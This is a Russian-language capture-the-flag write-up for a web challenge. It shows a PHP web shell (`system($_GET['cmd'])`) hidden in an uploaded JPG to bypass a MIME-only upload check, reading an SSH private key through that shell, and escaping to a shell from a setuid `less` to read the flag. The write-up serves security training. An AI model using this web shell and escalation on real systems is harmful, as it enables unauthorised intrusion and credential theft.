

# Web 300 / Доступ к секретам доктора Дума

> Нам удалось обнаружить, что доктор Дум запустил вторую версию секретного хранилища. Попробуйте понять, что он скрывает.

## Часть 1

Заходим на [http://zombie.breakingbrain.org:8082/](http://zombie.breakingbrain.org:8082/).

Проверяем куки, location storage, robots.txt и тд. Пусто.

Смотрим исходный код страницы и видим:

```html
<!-- upload to /uploads dir -->
<form enctype="multipart/form-data" action="/upload" method="post">
  <input name="file" type="file" />
  <button>Upload</button>
</form>
```

Файлы сохраняются в папку `uploads`. Окей, идём дальше.

Изучаем сервис. Выбираем JPG картинку и жмём **Upload**:

> File uploaded successfully: image.jpg

Переходим по адресу [`http://zombie.breakingbrain.org:8082/uploads/image.jpg`](http://zombie.breakingbrain.org:8082/uploads/image.jpg) и получаем `403 Forbidden`. Хм.

Попробуем залить картинку, но с другим расширением. Переименовываем файл `image.jpg` в `image.php` и заливаем ещё раз:

> File uploaded successfully: image.php

Значит, проверка по MIME, а не по расширению файла.

Переходим по адресу [`http://zombie.breakingbrain.org:8082/uploads/image.php`](http://zombie.breakingbrain.org:8082/uploads/image.php) и видим кракозябры, а не `403 Forbidden`. Возможно, Remote File Inclusion.

С помощью [https://github.com/dlegs/php-jpeg-injector](https://github.com/dlegs/php-jpeg-injector) внедряем в картинку следующий PHP код:

```php
<?php system($_GET["cmd"]); ?
```

Заливаем картинку с внедренным PHP, переходим по адресу `http://zombie.breakingbrain.org:8082/uploads/image.php?cmd=ls -la ../../` и среди кракозябр видим:

```bash
total 24
drwxrwxr-x 3 1001 1001 4096 Nov 29 10:55 .
drwxr-xr-x 3 root root 4096 Nov 29 10:53 ..
-rw-rw-r-- 1 1001 1001    8 Nov 29 10:55 flag.txt
-rw-rw-r-- 1 1001 1001 2602 Nov 29 10:55 id_rsa
drwxrwxr-x 4 1001 1001 4096 Nov 29 11:27 src
-rw-rw-r-- 1 1001 1001   75 Nov 29 10:55 ssh_data
```

Читаем `flag.txt` командой `cat ../../flag.txt`:

```bash
Not here
```

Окей, видим файлы `id_rsa` и `ssh_data`. В первом RSA ключ, во втором информация для подключения по SSH:

```bash
Don't forget about it:
ssh user@zombie.breakingbrain.org -p 61322 -i id_rsa
```

## Часть 2

Подключаемся по SSH, видим два файла `read` и `read_me`:

```bash
$ ls
read  read_me
```

Пытаемся прочитать `read_me`:

```bash
$ cat read_me
cat: read_me: Permission denied
```

Прав на чтении нет, т.к. владельцем является пользователь `flag`, а мы под `user`:

```bash
$ ls -l
total 24
-rwsr-sr-x 1 flag flag 16720 Nov 29 10:21 read
-rw------- 1 flag flag    30 Nov 29 10:19 read_me

$ id
uid=1337(user) gid=1337(user) groups=1337(user)
```

Файл `read` с правами на выполнение, запускаем:

```bash
$ ./read
you must become `flag` user :)
/home/user/read_me (END)
```

Похоже на результат команды `less`.

В третьей подсказке сказано, что нужно использовать gtfobins.

Ищем там команду `less` и видим, что из `less` можно перейти напрямую в shell командой `!/bin/sh`.

Попадаем в shell, находим флаг:

```bash
$ cat /home/flag/flag
ITF{YoU_ARE_v3ry_GO0D}
```

Флаг наш.

Гифка по второй части, чтобы было понятнее:


